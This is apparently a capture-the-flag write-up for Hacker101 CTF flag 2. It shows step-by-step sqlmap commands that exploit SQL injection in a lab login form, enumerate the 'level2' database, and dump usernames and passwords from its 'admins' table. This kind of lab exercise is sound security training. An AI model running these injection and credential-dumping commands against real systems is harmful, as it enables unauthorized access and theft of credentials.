

# Hacker101-CTF FLAG 2

We want to try and obtain the username and password to log in. In the previous flag, we noticed that we could get through without the username, but what about the password?

In this case, we already know that the input fields are susceptible to SQL Injection (SQLI). So, maybe we can exploit it using sqlmap.

First of all, I'm going to go ahead and try to obtain the databases if there is any vulnerability.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs
```

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

I'm getting this message:

[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

I'm going to try and increase the level value to 2.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2
```

Looks like I'm getting more juice this time!

[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y

I'm getting this message as well. I'm going to go ahead and try to exploit only the username field.

[INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N

Finally got some results! I got all the databases. I'm going to take a look into the level2 database.


```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables
```



Let's get into the admins table and see its columns.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns
```


Now let's have a look at the usernames! Dump it!

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump
```


Now let's retrieve the password.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump
```


Now lets try log in. Got it! We have the last flag


